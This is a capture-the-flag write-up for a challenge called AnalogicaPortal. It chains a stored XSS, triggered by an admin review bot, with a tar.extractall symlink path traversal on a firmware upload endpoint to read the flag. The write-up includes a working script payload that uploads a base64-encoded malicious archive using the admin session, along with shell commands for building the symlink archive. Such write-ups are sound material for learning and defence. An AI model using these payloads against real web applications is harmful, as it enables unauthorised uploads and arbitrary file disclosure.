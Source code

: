 # AnalogicaPortal
## Recon
There is an automated web client mechanic in `bot.py`, implying some kind of XSS vulnerability. The Bot accesses the URL `/review` after logging in as admin, listing bug reports on firmware.

The field `report.issue` is not being escaped properly, making it prone to XSS. After creating a user account, we can file a report on any firmware.

Because the session cookie is HttpOnly, we cannot simply exfiltrate it and spoof the admin login session. [XST](https://owasp.org/www-community/attacks/Cross_Site_Tracing) does not work as the TRACE method is being blocked by modern browsers, [cookie overflowing](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow) doesn't seem to work either. What we could do though is upload a piece of firmware directly within our payload. 

The next exploitation vector explored is the endpoint `/api/firmware/upload`, which calls the function `extract_firmware` where the use of `tar.extractall` can lead to [undesired sideeffects](https://docs.python.org/2.7/library/tarfile.html#tarfile.TarFile.extractall) when extracting archives.

So there are 2 steps to building an exploit:
* Create the XSS payload to upload a malicious archive
* Create a malicious archive containing a symlink to the flag

## Exploitation
XSS Payload:
```
<script>
const file = 'H4sIAAAAAAAAA+3PQQqDMBCF4RwlJ0jimJrzBKElIEZsCj2+0WVBXVRc/R8Mb2AWM2OMjdO01pD6WFIe7bvU7O1ziC9TvkX9zVUhhC2r39z6xot3nRfpRLkmPHyrtFx4w65PfXfWWs05H645mwMAAAAAAAAAAAAAAAAAcKMFKgwXTwAoAAA='
const bChars = atob(file);
const bNumbers = new Array(bChars.length);
for (let i = 0; i < bChars.length; i++) {
    bNumbers[i] = bChars.charCodeAt(i);
}
const bytes = new Uint8Array(bNumbers);

let data = new FormData()
data.append('file', new Blob([bytes], {type: 'application/gzip'}), 'xxx.tar.gz')

fetch('/api/firmware/upload', {
  method: 'POST',
  body: data,
  credentials: 'include'
})
</script>
```

We can build malicious archives containing symlinks to either absolute or relative paths. Since the `tar.extractall` call is being executed within the dir `/tmp`, we focus on [escaping this directory](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload).

Malicious archive (make sure to run using GNU tar for -P option):
```
$ cd tmp
$ sudo touch /flag.txt
$ sudo mkdir -p ../app/application/static
$ ln -s /flag.txt ../app/application/static/flag.txt
$ tar fcz mal.tar.gz -P ../app/application/static/flag.txt
$ base64 mal.tar.gz
$ sudo rm -rf ../app/application/static
```

After sending in the XSS payload, we can access the flag on `/static/flag.txt`.